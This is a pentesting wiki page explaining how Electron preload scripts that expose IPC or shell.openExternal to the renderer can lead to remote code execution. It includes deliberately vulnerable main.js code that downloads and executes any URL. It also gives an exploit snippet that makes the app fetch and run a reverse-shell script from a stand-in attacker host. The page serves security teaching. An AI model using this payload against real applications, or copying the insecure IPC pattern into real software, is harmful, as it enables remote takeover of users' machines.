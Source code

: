 # Electron contextIsolation RCE via IPC

{{#include ../../../banners/hacktricks-training.md}}

If the preload script exposes an IPC endpoint from the main.js file, the renderer process will be able to access it and if vulnerable, a RCE might be possible.

**Most of these examples were taken from here** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Check the video for further information.

## Example 0

Example from [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (you have the full example of how MS Teams was abusing from XSS to RCE in those slides, this is just a very basic example):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

Check how the `main.js` listens on `getUpdate` and will **download and execute any URL** passed.\
Check also how `preload.js` **exposes any IPC** event from main.

```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
  console.log("getUpdate: " + url)
  mainWindow.webContents.downloadURL(url)
  mainWindow.download_url = url
})

mainWindow.webContents.session.on(
  "will-download",
  (event, item, webContents) => {
    console.log("downloads path=" + app.getPath("downloads"))
    console.log("mainWindow.download_url=" + mainWindow.download_url)
    url_parts = mainWindow.download_url.split("/")
    filename = url_parts[url_parts.length - 1]
    mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
    console.log("downloadPath=" + mainWindow.downloadPath)
    // Set the save path, making Electron not to prompt a save dialog.
    item.setSavePath(mainWindow.downloadPath)

    item.on("updated", (event, state) => {
      if (state === "interrupted") {
        console.log("Download is interrupted but can be resumed")
      } else if (state === "progressing") {
        if (item.isPaused()) console.log("Download is paused")
        else console.log(`Received bytes: ${item.getReceivedBytes()}`)
      }
    })

    item.once("done", (event, state) => {
      if (state === "completed") {
        console.log("Download successful, running update")
        fs.chmodSync(mainWindow.downloadPath, 0755)
        var child = require("child_process").execFile
        child(mainWindow.downloadPath, function (err, data) {
          if (err) {
            console.error(err)
            return
          }
          console.log(data.toString())
        })
      } else console.log(`Download failed: ${state}`)
    })
  }
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
  ipcRenderer.send(event, data)
}
```

Exploit:

```html
<script>
  electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```

## Example 2

If the preload script exposes directly to the renderer a way to call `shell.openExternal` its possible to obtains RCE

```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
  shell.openExternal(url)
}
```

## Example 3

Is the preload script exposes ways to completely communicate with the main process, an XSS will be able to send any event. The impact of this depends on what the main process exposes in terms of IPC.

```javascript
window.electronListen = (event, cb) => {
  ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
  ipcRenderer.send(event, data)
}
```

{{#include ../../../banners/hacktricks-training.md}}




